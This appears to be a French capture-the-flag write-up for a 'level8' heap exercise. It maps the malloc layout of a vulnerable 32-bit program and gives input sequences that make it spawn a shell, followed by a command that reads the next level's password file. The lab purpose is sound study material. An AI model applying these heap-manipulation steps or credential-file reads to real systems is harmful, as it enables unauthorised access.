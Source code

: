 # level8 - Heap Memory Manipulation

## Analyse du Programme

**Structure**
- Boucle principale avec `fgets(buf, 128, stdin)`
- Commandes disponibles: `auth`, `reset`, `service`, `login`
- Vérification critique: `auth[32] != 0` pour `login`

**Comportement Mémoire**
- `auth`: alloue 4 bytes à `0x804a008`
- `service`: utilise `strdup` sur `buf+7`
- Chaque allocation décale de 16 bytes
- Headers malloc entre les blocs

## Exploitation

**Étapes**
1. `auth`: initialise le pointeur auth
2. Premier `serviceAAAA`: écrit à `0x804a018`
3. Second `serviceAAAA`: écrit à `0x804a028`
4. `login`: vérifie `auth` qui pointe maintenant vers nos "AAAA"

**Memory**

```nasm
0x804a008:      0x0000000a(auth)      0x00000000      0x00000000      0x00000011
0x804a018:      0x41414141(AAAA)      0x0000000a      0x00000000      0x00000011
0x804a028:      0x41414141(AAAA)      0x0000000a      0x00000000      0x00020fd1
                        |
                        |
          auth+32 <-----+
```

**Séquence d'Exploitation**
```bash
auth 
serviceAAAA
serviceAAAA
login
```

Cette exploitation fonctionne car:
- Le second bloc "AAAA" est placé à `auth + 32`
- La condition `auth != 0` devient vraie
- Le programme exécute `system("/bin/sh")`

**Solution supplementaire**
```
auth aaaa                   // Les 'a' sont presents a but illustratif
servicebbbbbbbbbbbbbbbb     // 16 * 'b'
login
```

Apercu de la memoire:
```
0x804a008:      0x61616161      0x0000000a      0x00000000      0x00000019
0x804a018:      0x62626262      0x62626262      0x62626262      0x62626262
0x804a028:      0x0000000a      0x00020fd9      0x00000000      0x00000000
0x804a038:      0x00000000      0x00000000      0x00000000      0x00000000
```

Sachant que `auth` fait un `malloc` de 4 qui sera aligne a 16 (1ere ligne) et que la prochaine allocation se fera a la suite (2eme ligne), nous en deduisons que 16 octets suffiront pour atteindre auth[32], ainsi, la condition `auth[32] != 0` sera vraie.

**Obtention du Flag**
```bash
cat /home/user/level9/.pass
```
